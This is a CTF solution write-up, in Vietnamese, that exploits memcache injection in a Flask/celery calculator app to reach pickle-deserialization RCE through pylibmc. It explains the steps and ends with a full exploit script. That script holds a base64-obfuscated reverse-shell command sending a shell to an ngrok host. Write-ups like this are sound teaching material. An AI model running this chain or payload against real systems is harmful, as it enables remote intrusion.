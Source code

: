 # Solution

Bài này server sử dụng package celery để tạo các task queue, đồng thời kết hợp với memcache để lưu  kết quả của các phép tính cộng trừ nhân chia giúp giảm thời gian tính toán trong những lần sau.

Dễ thấy với những bài sử dụng text-based protocol như thế này ta thường có thể inject vào backend (redis, memcache, ...). Và ở bài này cũng vậy, có thể khai thác memcache injection tại route `/calc/<operation>/<lhs>/<rhs>`

Syntax đúng của set command trong memcache như sau:

![set_command](https://user-images.githubusercontent.com/77546253/223177206-94af17b8-0ccd-45bc-aa15-a1aa3c226d6c.png)

Thử inject key là `vanir` với value là `haha`

![memcache_inject](https://user-images.githubusercontent.com/77546253/223177339-26d58a50-9092-4660-b2fa-40f43a492753.png)

Exec vào container, telnet đến memcahe server và tiến hành kiểm tra

![check_inject_success](https://user-images.githubusercontent.com/77546253/223177375-7f529294-2536-4795-aaee-6812231dfd8a.png)

-> Thành công.

Tiếp theo, mình dive source để tìm kiếm thêm thông tin cho việc rce. Server sử dụng `pylibmc` làm memcache client để thực hiện set và get data. Về `pylibmc`, nó là một thư viện python nhưng được viết bằng C và khi dive source của thằng này sẽ tìm được mảnh ghép cuối cùng để solve chall.

Chain sẽ như sau:

```
PylibMC_Client_get ->
  _PylibMC_parse_memcached_value ->
    _PylibMC_deserialize_native ->
      _PylibMC_Unpickle_Bytes, _PylibMC_Unpickle
```

Nếu `dtype` là `PYLIBMC_FLAG_PICKLE` thì sẽ thực hiện unpickle -> rce (Source tại [đây](https://github.com/lericson/pylibmc/blob/78138d33c4156111294269a2a8f0cfcc66ac5c5c/src/_pylibmcmodule.c))

![unpickle](https://user-images.githubusercontent.com/77546253/223177527-518837c7-cd8a-4fec-b447-160756203019.png)

Sau khi check file `_pylibmcmodule.h` tại [đây](https://github.com/lericson/pylibmc/blob/78138d33c4156111294269a2a8f0cfcc66ac5c5c/src/_pylibmcmodule.h), ta thấy để thỏa mãn điều kiện thì cần giá trị của `flags` khi gửi command set là `1`

![flag_pickle](https://user-images.githubusercontent.com/77546253/223177661-adfa4c6c-e883-4037-9b29-78be3290afc2.png)

Vậy ý tưởng khai thác sẽ là: memcache injection để set giá trị cho một key là payload rce (khi được unpickle), sau đó gửi GET request tới server để memcache client thực hiện lấy key này về => RCE diễn ra 

Final script:
```python
import requests
import pickle, os
import urllib.parse
import base64
class RCE:
    def __reduce__(self):
        cmd = ('echo c2ggLWkgPiYgL2Rldi90Y3AvNi50Y3Aubmdyb2suaW8vMTk1MjIgMD4mMQ==|base64 -d|bash')
        return os.system, (cmd,)

url = "http://127.0.0.1:5000"

if __name__ == '__main__':

    path = f"/calc/add/123/123"

    pickledPayload = pickle.dumps(RCE(), 1)
    len_payload = len(pickledPayload)
    print(len_payload)


    set_command = b"\r\nset uwsgi_file__app_chall._add_1_1233 1 60 111"+ b"\r\n" + pickledPayload + b"\r\n"

    final_path = path + urllib.parse.quote_from_bytes(set_command)

    print(url +  final_path)
    print(requests.get(url +  final_path).text)
    print(requests.get(url + "/calc/add/1/1233").text)
```
